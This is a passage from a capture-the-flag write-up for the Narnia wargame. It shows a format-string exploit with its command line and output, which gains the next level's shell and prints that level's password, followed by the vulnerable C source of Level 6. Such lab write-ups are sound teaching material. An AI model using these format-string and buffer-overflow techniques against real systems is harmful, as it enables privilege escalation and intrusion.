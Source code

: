 Okay, so we know we can write to the address of `i`, but we need to write 500 bytes into it!
In this case, we can use the format `%492x` - It determines the minimum number of characters to be printed. If the number of characters required to represent the value is less than the specified width, spaces are added as padding characters to meet the width requirement.
In our case spaces will be added to the beginning to pad the address. The string will hold total of 500 bytes. Let's run it! 

```ruby
narnia5@gibson:/narnia$ ./narnia5 $(echo -n -e "\x10\xd5\xff\xff\x10\xd5\xff\xff%492x%n")

change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
BAV0SUV0iM
$
```


## Level 6

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
  
extern char **environ;
  
// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}
  
int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;
	  
	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }
	  
	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));
	  
	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	setreuid(geteuid(),geteuid());
	    fp(b1);
	  
	exit(1);
}
```
